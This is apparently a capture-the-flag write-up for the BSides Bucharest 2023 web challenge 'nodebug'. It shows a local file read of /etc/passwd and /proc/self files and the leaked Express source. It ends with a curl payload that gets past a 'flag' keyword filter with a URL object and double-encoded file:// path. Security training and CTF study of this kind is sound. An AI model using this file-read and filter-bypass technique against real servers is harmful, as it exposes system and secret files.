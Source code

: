 ```yaml
---
layout: post
title:  "Writeup for Bsides Bucharest 2023 Web Challenge : nodebug"
tags: ctf web bsides 2023 
---
```



We are given a link to a webpage, let's see what we have there.
<img src="/assets/images/initial-webpage-nodebug.png" alt="Initial webpage for the challenge">

It expects a file parameter, let's assume it's called 'file' and let's try to read something that is 100% available to us : /etc/passwd

<img src="/assets/images/etc-passwd-nodebug.png" alt="Dump for the /etc/passwd file">

Alright, we can read files from the local system. Let's search for the source code and see what we can get.
Normally, we don't know the location of the source code on the file system, so we can try to dig for information using the information stored in the /proc/self directory.

Our main point of interest are /proc/self/environ and /proc/self/cmdline.

By dumping /proc/self/environ we find out the working directory of the application.
By dumping /proc/self/cmdline we find out the name of the source code file.

```js
const express = require('express');
const fs = require('fs');
const {
    cpuUsage
} = require('process');
const app = express(); // flag is in flag.txt 
app.get('/', (req, res) => {
    try {
        let file = req.query.file;
        let debug = req.query.debug;
        if (!file) {
            res.send("Missing file parameter");
            return;
        }
        if (debug) {
            file = new global[debug](file);
        }
        if (file.toString().includes('flag')) {
            res.send("Hacker detected");
            return;
        }
        res.send(fs.readFileSync(file, 'utf8').toString());
    } catch {
        res.send("Something bad happened");
    }
});
app.listen(3000, () => {
    console.log('Server is running on port 3000');
});
```

Great, we found the source code!
Now, let's see what we can exploit here.

Normally, we would have to read the flag.txt file from the /usr/src/app folder (found using /proc/self/environ).
However. our file cannot contain the substring _flag_.

```js
 if (debug) { 
    file = new global[debug](file); 
 }
```

This code is the only place where our input is modified, so it's safe to assume that we have to force __file__ to become an object that has the following properties:
1. Can be converted to a string form
2. Could reference local files
3. The internal reference and the string representation should be different.

In order to exploit these conditions, the __URL__ class is exactly what we need.
We force __file__ to become an instance of an __URL__ with a _file://_ scheme. This way we can easily meet two out of three conditions.
In order to meet the last condition, we can use URL encoding that would internally be resolved to the normal file.

Therefore, our payload will be:
```bash
curl -s 'https://nodebug.fly.dev?debug=URL&file=file:///usr/src/app/fl%2561g.txt'
```

Please note that the string should be double URL encoded as we send it, because the first time it is automatically URL decoded by the backend. Practically, what the backend receives is actually 
```txt
file=file:///usr/src/app/fl%61g.txt
```

Thanks for reading and keep hacking :)
